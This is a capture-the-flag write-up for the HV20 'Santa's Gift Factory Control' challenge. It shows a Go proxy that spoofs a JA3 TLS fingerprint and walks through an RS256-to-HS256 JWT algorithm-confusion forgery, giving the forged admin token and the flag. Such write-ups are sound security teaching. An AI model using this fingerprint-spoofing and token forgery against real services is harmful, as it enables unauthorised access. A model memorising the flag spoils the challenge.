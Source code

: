 # Day 17 / HV20.17 Santa's Gift Factory Control



## Challenge

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
* Author: fix86
* Tags:   #crypto #web-security
* Level:  hard

Santa has a customized remote control panel for his gift factory at the north
pole. Only clients with the following fingerprint seem to be able to connect:

`771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0`


### Mission

Connect to Santa's super-secret control panel and circumvent its access
controls.

[Santa's Control Panel](https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land/)


### Hints

* If you get a `403 forbidden`: this is part of the challenge
* The remote control panel does client fingerprinting
* There is an information leak somewhere which you need to solve the challenge
* The challenge is not solvable using brute force or injection vulnerabilities
* Newlines matter, check your files



## Solution


### Overcoming the 403

Searching the web for the finger print number from the description returned the
information that it's a [JA3 finger print](https://github.com/salesforce/ja3).

There was only one project discoverable on the web that provided means to
mimic a JA3 finger print. It's called [JA3Transport]() and it's written in Go.
Here is a [blog post]() kind of article about impersonating JA3 finger prints.

[JA3Transport]: https://github.com/cucyber/JA3Transport
[blog post]: https://medium.com/cu-cyber/impersonating-ja3-fingerprints-b9f555880e42

The project was used to ultimately build a proxy (thanks again mcia) thus
allowing to use a standard browser while impersonating the JA3 finger print.

```go
package main

import (
	"fmt"
	"github.com/CUCyber/ja3transport"
	"log"
	"net/http"
	"net/http/httputil"
	"net/url"
)

func main() {
	// start proxy
	http.HandleFunc("/", Proxy)
	fmt.Println("About to listen on port 8081...")
	log.Fatal(http.ListenAndServe(":"+"8081", nil))
}

func Proxy(res http.ResponseWriter, req *http.Request) {
	uri := "https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land"
	serveReverseProxy(uri, res, req)
}

func serveReverseProxy(target string, res http.ResponseWriter, req *http.Request) {
	// parse the url
	uri, _ := url.Parse(target)
	tr, _ := ja3transport.NewTransport("771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0")

	proxy := httputil.NewSingleHostReverseProxy(uri)
	proxy.Transport = tr
	proxy.ServeHTTP(res, req)
}
```

The now accessible web page looked like this:

![](screenshot_login.png)


### Searching and finding an additional angle

After erratic trials to find any aspect about this web page that could be
leveraged I finally arrived at the topic of [JSON Web Tokens]().

[JSON Web Tokens]: https://en.wikipedia.org/wiki/JSON_Web_Token

While trying to login with the credentials `admin`/`admin`, two noticable
things happend:

1. The browser was suddenly given a JSON Web Token as cookie.
2. There was a strange message in the HTML source code:
   `<!--DevNotice: User santa seems broken. Temporarily use santa1337.-->`
   This is probably the info leak that was mentioned in the challenge hints.

There exists a set of vulnerabilities that are – at least to me – 
astounding. See: [Critical vulnerabilites in JSON Web Token libraries]()

[Critical vulnerabilites in JSON Web Token libraries]: https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/

The vulnerability that was used here is the sweetest of the bunch: In a web
token there are at least the following two methods to sign and verify a token:
RSA and HMAC. 

With HMAC the idea is that the signing key is kept secret and is used by the
server to verify token authenticity.

With RSA the signing key is a secret private key and the verification key is a
public key. With RSA not only the server but everybody can verify the
authenticity of tokens. The URL to the public key is even part of the token.

The vulnerability is that the server side library that handles the tokens can
be told by the user that any given token was not signed with the RSA method (as
previously published by the server) but was signed with the HMAC method. The
fatality about this is that the server will automatically assume, that the 
public RSA key is a private HMAC key and will use it to verify the token. And
since that key is public to anyone the attacker can use it to sign arbitrary
tokens. How cool is that ? `(o_O)`


### Cookie modding

The cookie the was received from the server was decoded into the following
structure:

```json
Header:
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "/keys/1d21a9f945"
}

Payload:
{
  "exp": 1609416502,
  "iat": 1609412902,
  "sub": "none"
}

Signature:
{
   [some bytes]
}
```

Next the public key was retrieved from the server:

```
$ curl -O http://localhost:8081/keys/1d21a9f945"
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0KDtdDsZ/wpGXWRnP6DY
Ri7OxTWiwPVg8eTsVcmbzAkk2r4itb3NqRw9xpJeUHorgfw1f9GkuAFg/squMrXb
SYM0Vcxqmtsq379xCw6s0pxIafPR7TEAVRh5Mxrudl2lwiO4vJPs+2tmcgui/bFn
wC+qByZtIlsP+rlT/MF2wLaWe/LNAWtOXdFVDOzUy6ylLZeL6fRtt9SiuUOQkkC3
US8TmvVQYcCcwvu4GBJeGdlKrbIuXIohl7hP5i9/KZ3kIvzByp/Xk5iq+tH95/9u
X/9FHKUSrcRE4NYVRhkqHPpn/EbqXHMX0BM0QoGETORlpZIo/lAOQ7/ezOd9z1fw
zwIDAQAB
-----END PUBLIC KEY-----
```

At last a new cookie was forged (with the help of [CyberChef]()) with the
following payload:

[CyberChef]: https://gchq.github.io/CyberChef/#recipe=JWT_Sign('-----BEGIN%20PUBLIC%20KEY-----%5CnMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0KDtdDsZ/wpGXWRnP6DY%5CnRi7OxTWiwPVg8eTsVcmbzAkk2r4itb3NqRw9xpJeUHorgfw1f9GkuAFg/squMrXb%5CnSYM0Vcxqmtsq379xCw6s0pxIafPR7TEAVRh5Mxrudl2lwiO4vJPs%2B2tmcgui/bFn%5CnwC%2BqByZtIlsP%2BrlT/MF2wLaWe/LNAWtOXdFVDOzUy6ylLZeL6fRtt9SiuUOQkkC3%5CnUS8TmvVQYcCcwvu4GBJeGdlKrbIuXIohl7hP5i9/KZ3kIvzByp/Xk5iq%2BtH95/9u%5CnX/9FHKUSrcRE4NYVRhkqHPpn/EbqXHMX0BM0QoGETORlpZIo/lAOQ7/ezOd9z1fw%5CnzwIDAQAB%5Cn-----END%20PUBLIC%20KEY-----%5Cn','HS256')&input=ewogICJleHAiOiAxNjA5NDE2NTAyLAogICJpYXQiOiAxNjA5NDEyOTAyLAogICJzdWIiOiAic2FudGExMzM3Igp9

```json
Payload:
{
  "exp": 1609416502,
  "iat": 1609412902,
  "sub": "santa1337"
}
```

The result …

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2MDk0MTY1MDIsImlhdCI6MTYwOTQxMjkwMiwic3ViIjoic2FudGExMzM3In0.8QCk0LVJEEf-zieqEE6DPf3QM8nAgYmSqTw9Pei8Jvc
```

… was used to replace the cookie that was received from the server earlier.

And voilà, the server thinks I'm Santa and gave me access:

![](screenshot_access.png)

The flag was a comment in the HTML source code:

```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <title>Santa's Control Panel</title>
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <link href="static/bootstrap/bootstrap.min.css" rel="stylesheet" media="screen">
        <link href="static/fontawesome/css/all.min.css" rel="stylesheet" media="screen">
        <link href="static/style.css" rel="stylesheet" media="screen">
    </head>
    <!--Congratulations, here's your flag: HV20{ja3_h45h_1mp3r50n4710n_15_fun}-->
    <body class="loggedin">
        <nav class="navtop">
            <div>
```

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->

--------------------------------------------------------------------------------

Flag: `HV20{ja3_h45h_1mp3r50n4710n_15_fun}`

